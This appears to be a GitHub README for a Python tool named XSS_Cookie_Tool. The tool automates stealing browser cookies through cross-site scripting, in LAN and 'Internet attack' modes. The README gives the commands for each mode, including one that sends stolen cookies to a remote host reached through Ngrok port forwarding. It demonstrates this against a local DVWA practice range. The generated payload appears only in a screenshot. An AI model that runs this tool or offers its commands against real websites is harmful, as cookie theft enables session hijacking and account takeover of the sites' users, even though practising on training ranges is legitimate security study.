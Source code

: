 # XSS steals cookies
* The current version is 1.0 and will be updated continuously
* Python version 3.6 or above
* Automatically steal cookies
## usage method
  * View help information

      ```#python3 XSS.py -h```
  ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/Command.png "Help")  

  * LAN attack

      ```#python3 XSS.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * Here, XSS will be demonstrated in the local DVWA shooting range, and cookies will be stolen through the internet

_If your machine has a public IP address, just listen to the local port_

* Enable port forwarding (Ngrok is used for demonstration)
![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/TCP.png "Port forwarding")  
* Use Internet attack

    ```#python3 XSS.py -t -lp 8080 -rh ***.***.***.*** -rp 10029```
 ![图片名称](https://raw.githubusercontent.com/MartinxMax/XSS_Cookie_Tool/master/%C2%96%C2%96Demo_image/PAYLOAD.png "PAYLOAD")  
Copy PAYLOAD

